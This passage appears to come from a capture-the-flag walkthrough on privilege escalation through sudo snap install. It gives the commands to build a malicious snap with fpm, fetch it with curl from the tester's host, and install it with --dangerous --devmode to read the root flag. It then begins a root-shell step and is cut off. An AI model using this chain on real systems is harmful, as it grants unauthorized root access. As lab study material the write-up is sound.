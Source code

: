 
```
fpm -n xxxx -s dir -t snap -a all meta
```

![](./IMG/41.png)

> Upload snap file to target, and I can read root flag

```
curl http://10.10.17.145/xxxx_1.0_all.snap -o xxxx_1.0_all.snap
sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode
```

![](./IMG/42.png)

> Get root flag 

![](./IMG/43.png)

### How to get root shell 

> The following step was instructing by ippsec's video

- Move bash file to tmp or current directory 
```
cp /usr/bin/bash ~
```
![](./IMG/44.png)
